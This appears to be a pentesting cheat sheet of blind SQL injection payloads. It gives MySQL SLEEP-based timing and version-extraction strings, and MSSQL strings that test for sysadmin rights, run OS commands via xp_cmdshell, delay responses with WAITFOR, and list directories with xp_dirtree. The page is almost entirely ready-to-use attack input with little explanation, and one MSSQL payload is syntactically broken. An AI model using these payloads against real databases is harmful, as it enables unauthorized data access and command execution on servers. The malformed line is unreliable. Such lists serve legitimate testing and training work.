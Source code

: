 # Inferential SQL Queries

Search Tag(s): #helpers #webapp-pentesting #blind-sql-injection

## MySQL

Inject time-based blind payloads

```
' OR IF(1=1, SLEEP(5), 0)#
```

Grab version

```
' OR IF(1=1, SLEEP(5), 0) UNION SELECT (SELECT version())#
```

## MSSQL

```
' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 1 EXEC xp_cmdshell('echo Enabled')

' IF (SELECT CASE WHEN (SELECT IS_SRVROLEMEMBER('sysadmin')) = 1 THEN WAITFOR DELAY '0:0:16' ELSE 0 END) = 1

' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 0 EXEC xp_cmdshell('echo Disabled')

' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 0 WAITFOR DELAY '0:0:16' ELSE 0 END) = 1

' IF (SELECT SUBSTRING(@@version, 1, 1)) = '1' WAITFOR DELAY '0:0:16'

' OR 1=1; EXEC xp_dirtree 'C:\your_target_directory', 1, 1;-- -
```

---
## References

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)